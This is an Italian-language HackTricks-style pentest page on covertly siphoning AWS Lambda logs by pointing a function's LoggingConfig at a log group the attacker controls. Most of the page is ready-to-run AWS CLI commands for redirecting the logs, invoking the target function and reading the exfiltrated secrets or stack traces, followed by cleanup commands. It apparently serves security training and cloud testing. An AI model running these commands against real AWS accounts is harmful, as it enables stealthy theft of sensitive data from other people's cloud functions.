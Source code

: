 # AWS Lambda – Log Siphon via LoggingConfig.LogGroup Redirection

{{#include ../../../../banners/hacktricks-training.md}}

Sfrutta i controlli avanzati di logging di `lambda:UpdateFunctionConfiguration` per reindirizzare i log di una funzione verso un CloudWatch Logs log group scelto dall'attaccante. Questo funziona senza modificare il codice o il ruolo di esecuzione (la maggior parte dei ruoli Lambda include già `logs:CreateLogGroup/CreateLogStream/PutLogEvents` tramite `AWSLambdaBasicExecutionRole`). Se la funzione stampa secrets/request bodies o va in crash con stack traces, puoi raccoglierli dal nuovo log group.

## Permessi richiesti
- lambda:UpdateFunctionConfiguration
- lambda:GetFunctionConfiguration
- lambda:InvokeFunction (o affidarsi ai trigger esistenti)
- logs:CreateLogGroup (spesso non necessario se il ruolo della funzione lo ha)
- logs:FilterLogEvents (per leggere gli eventi)

## Passaggi
1) Crea un log group di destinazione
```
aws logs create-log-group --log-group-name "/aws/hacktricks/ht-log-sink" --region us-east-1 || true
```
2) Reindirizzare i log della funzione target
```
aws lambda update-function-configuration \
--function-name <TARGET_FN> \
--logging-config LogGroup=/aws/hacktricks/ht-log-sink,LogFormat=JSON,ApplicationLogLevel=DEBUG \
--region us-east-1
```
Attendi fino a quando `LastUpdateStatus` diventa `Successful`:
```
aws lambda get-function-configuration --function-name <TARGET_FN> \
--query LastUpdateStatus --output text
```
3) Invocare e leggere dal sink
```
aws lambda invoke --function-name <TARGET_FN> /tmp/out.json --payload '{"ht":"log"}' --region us-east-1 >/dev/null
sleep 5
aws logs filter-log-events --log-group-name "/aws/hacktricks/ht-log-sink" --limit 50 --region us-east-1 --query 'events[].message' --output text
```
## Impact
- Reindirizzare di nascosto tutti i log dell'applicazione/sistema verso un log group sotto il tuo controllo, aggirando l'aspettativa che i log finiscano solo in `/aws/lambda/<fn>`.
- Esfiltrare dati sensibili stampati dalla funzione o emersi negli errori.

## Cleanup
```
aws lambda update-function-configuration --function-name <TARGET_FN> \
--logging-config LogGroup=/aws/lambda/<TARGET_FN>,LogFormat=Text,ApplicationLogLevel=INFO \
--region us-east-1 || true
```
## Note
- I controlli di logging fanno parte del `LoggingConfig` di Lambda (LogGroup, LogFormat, ApplicationLogLevel, SystemLogLevel).
- Per impostazione predefinita, Lambda invia i log a `/aws/lambda/<function>`, ma puoi indicare qualsiasi nome di log group; Lambda (o il ruolo di esecuzione) lo creerà se consentito.

{{#include ../../../../banners/hacktricks-training.md}}
